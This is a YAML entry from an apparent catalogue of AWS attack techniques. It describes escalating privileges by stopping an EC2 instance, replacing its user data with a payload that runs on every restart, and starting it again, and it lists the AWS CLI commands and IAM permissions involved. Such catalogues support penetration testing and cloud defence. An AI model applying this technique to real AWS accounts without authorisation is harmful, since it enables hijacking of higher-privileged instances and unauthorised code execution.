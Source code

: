 ```yaml
---
description: |
    This command should be targeted against an existing ec2 instance with more privileges than currently possessed.

    The commands stop the instance, update the instance user data and then start the instance. By default, instance user data only executes the first time that an instance is started. However, through the use of a multipart mime file it is possible to reconfigure the instance to run the user data on every restart, and provide code to execute. Instructions on the format of this file can be found in the sources section. This file must be base64 encoded before being uploaded.
details:
    AWS-CLI-command:
        - code: |
            aws ec2 stop-instances --instance-id {target instance id}
            aws ec2 modify-instance-attribute --instance-id {target instance id} --attribute userData --value file://{path to base64 encoded file}
            aws ec2 start-instances --instance-id {target instance id}
    required-privileges:
        - code: |
            ec2:StopInstances
            ec2:StartInstances
    required-configurations:
        - code: |
            An ec2 instance with more privileges than you.
    useful-privileges:
        - code: |
            ec2:ListInstances
            ec2:GetInstance
            iam:GetRole
    sources:
        - code: |
            https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/
    submitted-by:
        - code: |
            Lucas Fedyniak-Hopes
---
```




